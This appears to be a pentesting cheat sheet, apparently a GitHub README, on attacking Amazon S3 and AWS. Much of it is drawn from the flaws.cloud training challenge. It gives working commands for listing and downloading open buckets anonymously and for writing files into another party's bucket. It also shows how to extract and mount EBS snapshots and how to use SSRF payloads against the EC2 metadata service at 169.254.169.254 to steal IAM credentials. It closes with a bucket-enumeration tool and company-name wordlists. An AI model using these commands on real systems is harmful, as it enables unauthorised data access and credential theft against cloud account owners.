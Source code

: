 # awscli
# Amazon Bucket S3 AWS
Prerequisites, at least you need awscli
```
sudo apt install awscli
```
You can get your credential here https://console.aws.amazon.com/iam/home?#/security_credential
but you need an aws account, free tier account : https://aws.amazon.com/s/dm/optimization/server-side-test/free-tier/free_np/
```
aws configure
AWSAccessKeyId=[ENTER HERE YOUR KEY]
AWSSecretKey=[ENTER HERE YOUR KEY]
```
```
aws configure --profile nameofprofile
```

then you can use *--profile nameofprofile* in the aws command

By default the name of Amazon Bucket are like http://s3.amazonaws.com/[bucket_name]/, you can browse open buckets if you know their names
```
http://s3.amazonaws.com/[bucket_name]/
http://[bucket_name].s3.amazonaws.com/
http://flaws.cloud.s3.amazonaws.com/
```

## Basic test - Listing the files
```bash
aws s3 ls s3://targetbucket --no-sign-request --region insert-region-here
aws s3 ls  s3://flaws.cloud/ --no-sign-request --region us-west-2
```
You can get the region with a dig and nslookup
```bash
$ dig flaws.cloud
;; ANSWER SECTION:
flaws.cloud.		5	IN	A	52.218.192.11

$ nslookup 52.218.192.11
Non-authoritative answer:
11.192.218.52.in-addr.arpa	name = s3-website-us-west-2.amazonaws.com.
```


## Move a file into the bucket
```
aws s3 mv test.txt s3://hackerone.marketing
FAIL : "move failed: ./test.txt to s3://hackerone.marketing/test.txt A client error (AccessDenied) occurred when calling the PutObject operation: Access Denied."

aws s3 mv test.txt s3://hackerone.files
SUCCESS : "move: ./test.txt to s3://hackerone.files/test.txt"
```

## Download every things (in an open bucket)
```
aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . --no-sign-request --region us-west-2
```

## Check bucket disk size (authenticated) use, --no-sign for un-authenticated 
```
aws s3 ls s3://<bucketname> --recursive  | grep -v -E "(Bucket: |Prefix: |LastWriteTime|^$|--)" | awk 'BEGIN {total=0}{total+=$3}END{print total/1024/1024" MB"}'
```

## AWS - Extract Backup
```
aws --profile flaws sts get-caller-identity
"Account": "XXXX26262029",

aws --profile flaws  ec2 describe-snapshots --owner-id XXXX26262029 --region us-west-2    
"SnapshotId": "snap-XXXX342abd1bdcb89",

Create a volume using snapshot
aws --profile swk ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id  snap-XXXX342abd1bdcb89
In Aws Console -> EC2 -> New Ubuntu
chmod 400 YOUR_KEY.pem
ssh -i YOUR_KEY.pem  ubuntu@ec2-XXX-XXX-XXX-XXX.us-east-2.compute.amazonaws.com

Mount the volume
lsblk
sudo file -s /dev/xvda1
sudo mount /dev/xvda1 /mnt
```


## Bucket informations
Amazon exposes an internal service every EC2 instance can query for instance metadata about the host. If you found an SSRF vulnerability that runs on EC2, try requesting :
```
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/user-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/IAM_USER_ROLE_HERE will return the AccessKeyID, SecretAccessKey, and Token
```
For example with a proxy : http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws/

## Bucket Finder
A cool tool that will search for readable buckets and list all the files in them. It can also be used to quickly find buckets that exist but deny access to listing files.
```
wget https://digi.ninja/files/bucket_finder_1.1.tar.bz2 -O bucket_finder_1.1.tar.bz2
./bucket_finder.rb my_words
./bucket_finder.rb --region ie my_words
	US Standard         = http://s3.amazonaws.com
	Ireland             = http://s3-eu-west-1.amazonaws.com
	Northern California = http://s3-us-west-1.amazonaws.com
	Singapore           = http://s3-ap-southeast-1.amazonaws.com
	Tokyo               = http://s3-ap-northeast-1.amazonaws.com

./bucket_finder.rb --download --region ie my_words
./bucket_finder.rb --log-file bucket.out my_words
```
Use a custom wordlist for the bucket finder, can be created with
```
List of Fortune1000 company names with permutations on .com, -backup, -media. For example, walmart becomes walmart, walmart.com, walmart-backup, walmart-media.
List of the top Alexa 100,000 sites with permutations on the TLD and www. For example, walmart.com becomes www.walmart.com, www.walmart.net, walmart.com, and walmart.
```


## Thanks to
* https://community.rapid7.com/community/infosec/blog/2013/03/27/1951-open-s3-buckets
* https://digi.ninja/projects/bucket_finder.php
* [Bug Bounty Survey - AWS Basic test](https://twitter.com/bugbsurveys/status/859389553211297792)
* [FlAWS.cloud Challenge based on AWS vulnerabilities](http://flaws.cloud/)
